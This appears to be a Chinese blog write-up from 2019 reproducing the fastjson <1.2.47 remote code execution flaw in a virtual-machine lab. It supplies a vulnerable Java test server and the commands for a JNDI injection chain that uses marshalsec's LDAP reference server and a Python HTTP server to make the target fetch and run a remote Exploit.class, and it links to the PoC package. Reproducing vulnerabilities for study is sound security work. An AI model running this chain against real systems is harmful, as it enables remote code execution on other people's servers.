 ```yaml
---
title: fastjson<1.2.47 RCE 漏洞复现
date: 2019-07-15 16:16:12
tags:
- Hacker
categories:
- Hacker
---
```



这两天爆出了 fastjson 的老洞，复现简单记录一下。

首先使用 spark 搭建一个简易的利用 fastjson 解析 json 的 http server。

<!--more-->

```java
package cn.hacktech.fastjsonserver;

import com.alibaba.fastjson.JSON;
import static spark.Spark.*;

public class Main {
    public static void main(String[] args) {
        get("/hello", (req, res) -> "spark server start success");
        post("/test", (req, res) -> {
            String payload = req.body();
            JSON.parse(payload);
            return "json payload：" + payload;
        });
    }
}
```

编译出来后，启动这个 jar，在 `/test` 这个 post 点即可 post json payload。

然后这里分两类：

1. 如果只是想检测漏洞是否存在，可以使用 dnslog 去检测
2. 利用的话，需要自己起一个恶意的 ldap 或者 rmi 服务

本机需要起一个 LDAP 服务和 http 服务

```
poc-->LDAP-->http
```

poc 会通过上面的路径去请求你的 http 服务上面的对应的 class 文件然后去解析执行这个 class

启动 LDAP 用的 marshalsec，会比较方便。

1. 在本目录下启动 http server 在 80 端口


```
python -m http.server 80
```

2. 启动 LDAP 服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1/#Exploit
```

后面的 Exploit 是指 Exploit.class 文件

3. 运行 PoC，它会请求 LDAP 服务，或者直接把 json payload post 到 `/test`

```
java -cp fastjson-1.2.47.jar; PoC
```

其中代码编译的话，直接执行 `javac the.java` 即可，不过 PoC.java 的编译需要引入 fastjson jar 包，运行 `javac -cp ./fastjson-1.2.47.jar PoC.java`

具体的细节可见[代码打包文件](https://www.lanzous.com/i4zzqej)

## 复现遇到一些坑

这次的这个洞是有 jdk 版本要求的。

最开始我在我本机测试通过，原因是因为它请求不到 class 的时候会去本目录下进行一个查找，也就是并没有经过 http 服务器。

所以想要复现这个漏洞的话，需要 target 主机上面的 jdk 版本有严格的要求，具体见下图

![](https://raw.githubusercontent.com/akkuman/pic/master/img/20190716164141951_25963.png)

所以建议复现流程是

## 建议复现流程

1. 起一个虚拟机专门用来运行我写的那个简易的 fastjsonserver，或者你可以直接在虚拟机上面执行 PoC，关键在于 target 机器的 jdk 版本。
2. 你可以在本机起 ldap/rmi 服务以及 http 服务，或者全部在虚拟机上运行也可以，但是一般真实情况下我们是在外部构造恶意的 ldap/rmi 以及 http server，所以建议这步放到虚拟机外运行。
3. 根据你的网络环境修改 PoC。
4. 然后 post payload 或者运行 PoC，即可看到虚拟机上弹出了计算器。

**低版本的java 8u112**
链接: https://pan.baidu.com/s/1Q3lGG2b4I8aTXpQbmvK2dw 提取码: 36mm

**复现视频链接**：[复现流程.zip](https://www.lanzous.com/i50ip3g)